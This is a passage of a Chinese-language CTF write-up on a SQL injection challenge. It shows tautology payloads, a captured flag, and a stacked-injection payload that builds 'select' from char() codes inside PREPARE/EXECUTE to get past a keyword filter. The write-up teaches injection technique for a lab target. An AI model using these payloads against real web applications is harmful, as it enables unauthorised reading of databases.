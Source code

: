    ```sql
   1' or '1'='1’ #
   
   或者 
   
   1' or '1'='1
   ```

   返回值

   ```
   array(1) {
     [0]=>
     string(42) "flag{bb0b5e1e-d7e6-4ed1-8b53-5a1540d0bff8}"
   }
   ```

   

#### 方法二：预处理语句+堆叠注入

预处理语句使用方式：

```sql
PREPARE name from '[my sql sequece]';   //预定义SQL语句
EXECUTE name;  //执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE name;  //删除预定义SQL语句
```

预定义语句也可以通过变量进行传递:

```sql
SET @tn = 'hahaha';  //存储表名
SET @sql = concat('select * from ', @tn);  //存储SQL语句
PREPARE name from @sql;   //预定义SQL语句
EXECUTE name;  //执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE sqla;  //删除预定义SQL语句
```

本题即可利用`char()`方法将`ASCII码`转换为`SELECT`字符串，接着利用`concat()`方法进行拼接获得查询的`SQL语句`，来绕过过滤或者直接使用`concat()`方法绕过

```sql
char（）根据ASCII表返回给定整数值的字符值
eg:
mysql> SELECT CHAR(77,121,83,81,'76');
-> 'MySQL'

contact（）函数用于将多个字符串连接成一个字符串
contact (str1,str2,…) 
eg:
mysql> SELECT CONCAT('My', 'S', 'QL');
-> 'MySQL'
char(115,101,108,101,99,116)<----->'select'
```

**payload1：**不使用变量

```sql
1';PREPARE jwt from concat(char(115,101,108,101,99,116), ' * from `1919810931114514` ');EXECUTE jwt;#
```


[^1]: 此处 # 作用是注释 忽略 # 之后的语句 [参考资料](https://blog.csdn.net/github_36032947/article/details/78442189)
[^2]: 这句话的逻辑 不是特别清楚 网上搜了很多 但是都是这一道题目的 没有讲具体的逻辑 目前推断是 能堆叠 防止你乱搞 所以才禁止了这些关键词 否则直接禁止了堆叠注入 就根本不用禁止了 而且此时是联合注入